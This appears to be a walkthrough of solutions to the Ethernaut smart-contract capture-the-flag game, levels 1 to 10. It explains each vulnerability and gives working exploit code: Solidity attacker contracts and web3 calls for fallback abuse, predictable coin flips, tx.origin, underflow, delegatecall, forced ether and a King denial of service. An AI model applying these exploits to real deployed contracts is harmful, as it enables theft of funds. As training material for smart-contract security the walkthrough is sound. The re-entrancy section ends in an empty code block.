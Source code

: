 # Ethernaut solution

## 1. Fallback
Abusing erroneous logic between the functions and fallback function
```
await contract.contribute({value: 1234});
await contract.sendTransaction({value: 1234});
await contract.withdraw();
```

## 2. Fallout
Constructor is spelled wrongly; becomes a regular function
```
await contract.Fal1out({value: 1234});
await contract.sendAllocation(await contract.owner());
```

## 3. Coinflip
Don't rely on block number for any validation logic. I can calculate solution if both our txn in the same block and pass the result to your contract!
``` 
pragma solidity ^0.4.24;
import "./CoinFlip.sol";

contract CoinFlipSoln {
    CoinFlip private _victim;
    uint256 private lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _address) public {
        _victim = CoinFlip(_address);
    }
    
    function hackIt() public {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;
    _victim.flip(side);

  }
}
```

## 4. Telephone
Don't rely on tx.origin. Remember that when you call a contract (B) function from within another contract (A), the msg.sender is the address of A, not the account that you initiated the function from. The only way you can preserve msg.sender is through DelegateCall but that's another shit show by itself! Would avoid unless you know what you're doing.
```
pragma solidity ^0.4.24;
import "./telephone.sol";

contract HackIt {
    Telephone private telephone;
    
    constructor(address _address) public {
        telephone = Telephone(_address);
    }
    
    function hackIt() public {
        telephone.changeOwner(msg.sender);
    }
}
```

## 5. Token
Be careful of integer over/underflow. Always use safemath libraries. Basically I understood that no matter what parameter I entered as _value, it will always return a number that is > 0 because it's a uint therefore the require statement is as good as useless. 
```
await contract.transfer(instance, 25)
```

## 6. Delegation
Be very very careful when using delegatecall. msg.sender, msg.data, msg.value are all preserved. Always do a check to ensure that msg.data.length == 0 if you don't want them to call any function. https://solidity.readthedocs.io/en/v0.4.25/types.html#address for more info. All I had to do was trigger the fallback function (note that it is not payable) with "pwn()" as the msg.value. https://web3js.readthedocs.io/en/1.0/web3-eth.html#eth-sendtransaction
```
await contract.sendTransaction({data: web3.sha3("pwn()").slice(0, 10)})
```

## 7. Force
Even though your contract may not have a payable fallback function, you can still force ether transfers into your contract via selfdestruct or transaction fee rewards for mining a block. Do not ever assume that your contract will always have 0 balance and use it as part of validation.
```
pragma solidity ^0.4.24;

contract hackIt {
    
    address private _victim;
    
    constructor(address victim) public payable {
        _victim = victim;
    }
    
    function forceTransfer() public {
        selfdestruct(_victim);
    }
}
```

## 8. Vault
Essentially your private variables are completely exposed on a public chain simply by using a block explorer. The private visibility simply restricts other contracts from calling it. Ethereum stores data in 32 bytes slots. https://ethereum.stackexchange.com/questions/13910/how-to-read-a-private-variable-from-a-contract
1. Deploy contract in truffle to get ABI (inside of ./build/contracts), this tells you where the variable is stored (index 1)
2. truffle console --network ropsten to connect to ropsten (make sure your truffle.js is updated accordingly)
3. web3.eth.getStorageAt("contract address", index)

## 9. King
This is a classic example of DDoS with unexpected revert whereby when the contract tries to do a transfer back to you address (contract), your payable fallback function will simply revert (or if you don't have 1) thus ensuring that nobody can overtake your position as king. 

edit: Make sure that when you sign the transaction with metamask, you manually increase the gas limit on the metamask transaction pop up. 4 mil gas limit is more than enough, too big and it might fail on the ropsten network (block limits on different networks vary)
```
pragma solidity ^0.4.24;

contract KingForever {

    function takeover(address _target) public payable {
        //target King contract
        _target.call.value(msg.value).gas(4000000)();
    }
    
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

## 10. Re-entrancy
The same hack as the DAO hack. Due to the ordering of the transactions, the malicious contract is able to keep calling the withdraw function as the internal state is not updated. When the call.value is processed, the control is handed back to the fallback function of the malicious contract which then calls the withdraw function again.
```

```






